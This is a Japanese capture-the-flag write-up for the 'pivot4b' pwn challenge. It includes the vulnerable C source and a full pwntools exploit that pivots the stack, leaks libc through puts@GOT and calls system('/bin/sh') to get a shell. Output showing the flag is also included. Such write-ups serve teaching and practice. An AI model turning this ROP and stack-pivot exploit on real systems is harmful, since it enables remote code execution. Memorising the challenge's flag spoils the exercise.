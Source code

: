## pivot4b (394pt / 117 solves) [medium]
> スタックはあなたが創り出すものです。
>
> nc [問題鯖のホスト名] [ポート番号]

恐らく解くのに最も時間が掛かった問題で、かつ解けたのがそれなりに嬉しかった問題。

次に示すソースコードが与えられている。
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gift_set_first_arg() {
	asm volatile("pop %rdi");
	asm volatile("ret");
}

void gift_call_system() {
	system("echo \"Here's your gift!\"");
}

int main() {
	char message[0x30];

	printf("Welcome to the pivot game!\n");
	printf("Here's the pointer to message: %p\n", message);

	printf("> ");
	read(0, message, sizeof(message) + 0x10);

	printf("Message: %s\n", message);

	return 0;
}


__attribute__((constructor)) void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(120);
}
```

read関数を見ると、明らかにバッファオーバーフローが可能なつくりにはなっているものの、`0x10`バイト分しか余裕がない。gdb-pedaで実験してみたところ、リターンアドレスよりも下のスタック領域は書き換えることができなかった。これではsystem関数に引数を与えることができない。  
こんな時に有効なのがstack pivotというテクニック。leave命令でrspを書き換えてより広い領域を指すようにし、そこをスタックとして利用する、というのが基本の考え方となる。私はこの問題で初めてstack pivotに触れることになった（加えて、ROPもあまり経験がない）ので、[詳解セキュリティコンテスト](https://ctfbook.github.io/2nd/)やstack pivotに関する情報が載っているブログ記事、そしてgdb-pedaとにらめっこしながらソルバを書いた。その内容を以下に示す。
```python
from pwn import *

target = './chall'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

binary = ELF(target)
libc = binary.libc
addr_pop_rdi = 0x40117a
addr_system = 0x40118d
addr_leave = 0x401211
addr_binsh = 0
addr_msg = 0

proc = remote(hostname, port)

proc.recvuntil('Here\'s the pointer to message: ')
addr_msg = int(proc.recvline()[2:14].decode(), 16)
payload_1 = pack(addr_pop_rdi)
payload_1 += pack(binary.got['puts'])
payload_1 += pack(binary.plt['puts'])
payload_1 += pack(binary.symbols['main']+1)
payload_1 += b'A' * 0x8
payload_1 += pack(binary.symbols['main']+1)
payload_1 += pack(addr_msg - 8)
payload_1 += pack(addr_leave)

proc.sendlineafter('> ', payload_1)

proc.recvline()
libc_leak = int.from_bytes(proc.recvline()[0:-1], 'little')
libc.address = libc_leak - libc.symbols['puts']

addr_binsh = next(libc.search('/bin/sh\x00'))
payload_2 = pack(0x40101a)
payload_2 += pack(addr_pop_rdi)
payload_2 += pack(addr_binsh)
payload_2 += pack(addr_system)
payload_2 += pack(addr_binsh)
payload_2 += pack(addr_binsh)
payload_2 += pack(addr_msg - 8)
payload_2 += pack(addr_leave)

proc.sendlineafter('> ', payload_2)
proc.interactive()
```

このソルバの流れとしては、
1. 配列msgにlibcのベースアドレスをリークさせるための命令を積む
2. leave命令で配列msgの先頭-8バイトのアドレスをrspに格納する
3. ret命令でmsgの先頭にrspが移る
4. puts(puts@GOT)でputs関数のGOTアドレスを手に入れ、main関数の先頭から1バイト先の位置に戻る（1バイト先の位置に戻っているのは、スタックのアラインメントを合わせるため）
5. 手に入れたGOTアドレスからlibc内のputs関数のオフセットを引き、libcのベースアドレスを算出しておく
6. 更にもう一度main関数の先頭から1バイト先のところに戻り、ユーザ入力を可能にする
7. 再び配列msgの内容を書き換える。今度はsystem関数を実行するための命令を積む
8. 再度leave命令からのret命令でmsgの先頭にrspを移す
9. '/bin/sh'を引数にしてsystem関数が実行、すなわちシェルが起動する

......こんな感じだったと思う。「思う」というのは、このソルバはああでもないこうでもない、と頭をひねりながら色々やっていたらなんかできた！って感じのものなので、細部まで説明するのが難しい。例えば6.はどうしてそうしているのか、自分でも思い出せなくなってしまった。（確かこうしないとrspがずれてアドレスが正しく解釈されない、みたいな感じだったとは思う）  
なお、ROP gadgetとsystem関数のアドレスはソースコード内にギフトとして与えられているので、それを利用している。  
何にせよ、このソルバを通すとフラグが得られた。
```
$ python3 solver.py
[+] Opening connection to [hostname] on port [port]: Done
poc.py:30: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.recvuntil('Here\'s the pointer to message: ')
140720973439520
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:876: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
poc.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  addr_binsh = next(libc.search('/bin/sh\x00'))
[*] Switching to interactive mode
Message: 

Welcome to the pivot game!
Here's the pointer to message: 0x7ffe223c3ee0
> Message: \x1a\x10@
$ ls
flag-bce7759151aa98ff2e61358f578ec2eb.txt
run
$ cat flag-bce7759151aa98ff2e61358f578ec2eb.txt
ctf4b{7h3_57ack_c4n_b3_wh3r3v3r_y0u_l1k3}
```

### `ctf4b{7h3_57ack_c4n_b3_wh3r3v3r_y0u_l1k3}`
